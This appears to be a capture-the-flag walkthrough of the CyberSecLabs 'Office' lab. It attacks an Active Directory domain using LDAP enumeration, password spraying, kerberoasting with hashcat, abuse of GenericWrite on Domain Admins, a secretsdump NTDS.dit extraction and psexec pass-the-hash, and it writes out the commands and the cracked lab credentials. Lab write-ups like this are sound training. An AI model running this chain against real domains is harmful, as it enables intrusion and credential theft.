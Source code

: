 ## Cyberseclabs - Office Walkthrough


## Nmap Scan 
As usual, we start off with a nmap scan to discover open ports and its corresponding services running on the system.

![nmap_scan.PNG](/images/office/Nmap/nmap_scan.PNG)

From the nmap scan , we see a bunch of open ports, mainly
- Port 88 : Kerberos
- Ports 135,139,445 : SMB 
- Ports 389,3268 : LDAP
- Port 3389 : RDP
- Port 5985 : Winrm 

Before we continue, we have to edit our **hosts** file and add the  domain name + IP address 

![hosts.PNG](/images/office/Nmap/hosts.PNG)

## SMB Enumeration
Let's start off by enumerating SMB, to see if we have anonymous access (a.k.a NULL Session).

![smbclient.PNG](/images/office/Nmap/smbclient.PNG)

As seen above, no shares were shown/discovered when we login to smb as anonymous 

Since we do not have any credentials or information on SMB, let's turn our attention to LDAP.

## LDAP Enumeration
One great tool to enumerate LDAP that is build into Kali Linux is **ldapsearch**.
![namingcontexts.PNG](/images/office/LDAP/namingcontexts.PNG)
<u>ldapsearch -h 172.31.3.2 -x -s base namingcontexts</u>

By running the above command, we get the base DN so that we can do our ldap query later on.

![dsmith.PNG](/images/office/LDAP/dsmith.PNG)
![crhodes.PNG](/images/office/LDAP/crhodes.PNG)
![ssmith.PNG](/images/office/LDAP/ssmith.PNG)
<u>ldapsearch -h 172.31.3.2 -x -b "DC=roast,DC=csl"</u>

Looking at the output above , we discovered 3 users and user **dsmith** has its password in his description. (WelcomeToR04st)

We went back to **enumerate smb** with user **dsmith**'s credentials, however, nothing interesting there.

## RPC User Enumeration 
Upon obtaining user **dsmith**'s credentials, I tried to enumerate for more users using rpcclient 
![enumdomusers.PNG](/images/office/rpcclient/enumdomusers.PNG)
From the output, there is an additional non-default user  **roastsvc**.

## Kerbrute PasswordSpray
Since evil-winrm does not return us a shell as user **dsmith**, let's try some password spraying to see if any other users share the same password as **dsmith**
![passwordspraying.PNG](/images/office/kerbrute/passwordspraying.PNG)
<u>./kerbrute_linux_amd64 passwordspray -v -d roast.csl --dc 172.31.3.2 users.txt WelcomeToR04st</u>

Through password spraying, we discover that user **crhodes** also shares the same password as user **dsmith**. 

## Enumerate users with SPN set
Let's obtain a shell as user **crhodes** using evil-winrm and at the same time, load [PowerView](https://github.com/PowerShellMafia/PowerSploit) powershell script.
![crhodes.PNG](/images/office/kerberoast/crhodes.PNG)
After obtaining a shell as user **crhodes**, we realised that the access.txt is not in the Desktop directory. It means we have to enumerate more and esclate ourselves to another user. 

From here, we can get more information on all the AD users by running PowerView's command **Get-NetUser -SPN** to list all users with a SPN set. 

![SPN.PNG](/images/office/kerberoast/SPN.PNG)
From the output, we discover that user **roastsvc** has a serviceprincipalname(SPN) set. With this information, it tells us that user **roastsvc** is **likely** susceptible to **kerberoasting**.

## Kerberoasting 
Since we know that user **roastsvc** is likely vulnerable to kerberoasting, we can use [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) by impacket to obtain the TGS and take it offline to crack
![TGS.PNG](/images/office/kerberoast/TGS.PNG)

Once we obtain the TGS, let's crack it with hashcat
![cracked_tgs.PNG](/images/office/kerberoast/cracked_tgs.PNG)
<u>hashcat -m 13100 -a 0 roastsvc_spn /usr/share/wordlists/rockyou.txt</u>

Credentials -> roastsvc:!!!watermelon245

## Privilege Esclation to SYSTEM
Once we get a shell as user **roastsvc**, we upload and run [BloodHound](https://github.com/BloodHoundAD/BloodHound) against the machine to reveal any misconfigured AD relationships.

First, let's setup a smb-server using impacket then mount the smb share on the target machine, so that we can upload Bloodhound and download the bloodhound output with ease
- 1. Setup impacket's smb-server
	![smbserver.PNG](/images/office/SMBServer/smbserver.PNG)
	Syntax : impacket-smbserver (sharename) (directory) -smb2support -username (your-username) -password (your-password)
- 2. Setup new PSDrive on target machine and mount the share
	![mount.PNG](/images/office/SMBServer/mount.PNG)
	- $pass = convertto-securestring (your-password) -AsPlainText -Force
	- $cred = New-Object System.Management.Automation.PSCredential('(your-username)', $pass)
	- New-PSDrive -Name (your-username) -PSProvider FileSystem -Credential $cred \\\\(your-ip)\(share-name)
- 3. CD into your share, run bloodhound 
	![sharphound.PNG](/images/office/SMBServer/sharphound.PNG)
	- Make sure you upload bloodhound to the directory you created as the share
- 4. Start Bloodhound 
	![bloodhound.PNG](/images/office/SMBServer/bloodhound.PNG)
	- neo4j console start
	- bloodhound 

- 5. Upload the bloodhound output to analyze 
	![bloodhound_output.PNG](/images/office/SMBServer/bloodhound_output.PNG)
	- Drag and drop the zip file into the bloodhound console

Once we are done setting up BloodHound, let's start analyzing the output that we have gathered from the target machine.
- 1. Mark user **roastsvc** as **Owned**
	![owned_user.jpg](/images/office/SYSTEM/owned_user.jpg)
- 2. Use the built-in query 
	![path_to_DA.jpg](/images/office/SYSTEM/path_to_DA.jpg)
	- "Shortest Path to Domain Admins from Owned Principals"

From here, we found out that user **roastsvc** has **GenericWrite** to group **Domain Admins**.

![generic_write.PNG](/images/office/SYSTEM/generic_write.PNG)
- **GenericWrite** : Provides write access to all properties

Since user **roastsvc** has **GenericWrite** permission to the **Domain Admins** group, we can simply just add user **roastsvc** into the **Domain Admins** group.
- 1. List all current members of **Domain Admins** group
	![original_DA_members.PNG](/images/office/SYSTEM/original_DA_members.PNG)
	- net group (group-name) /domain
- 2. Add user **roastsvc** into **Domain Admins** group
	![add_to_DA.PNG](/images/office/SYSTEM/add_to_DA.PNG)
	- net group (group-name) (user-to-add) /ADD /DOMAIN 
- 3. Check if user **roastsvc** is added into the group
	![updated_DA_members.PNG](/images/office/SYSTEM/updated_DA_members.PNG)
	- net group (group-name) /domain

Lastly, we can dump the NTDS.dit hash file for the Administrator's hash using [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) by impacket and [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) into the target machine
- 1. Dumping the NTDS.dit hash file 
	![secretsdump.PNG](/images/office/SYSTEM/secretsdump.PNG)
	- python secretsdump.py (domain-name)/(user)@(domain-name) -dc-ip 172.31.3.2
- 2. Get the Administrator's hash
	![admin_hash.PNG](/images/office/SYSTEM/admin_hash.PNG)
	
-  3. PSExec 
	![psexec.PNG](/images/office/SYSTEM/psexec.PNG)
	- python psexec.py (domain-name)/user@(domain-name) -hashes (admin-hash) -dc-ip 172.31.3.2 




















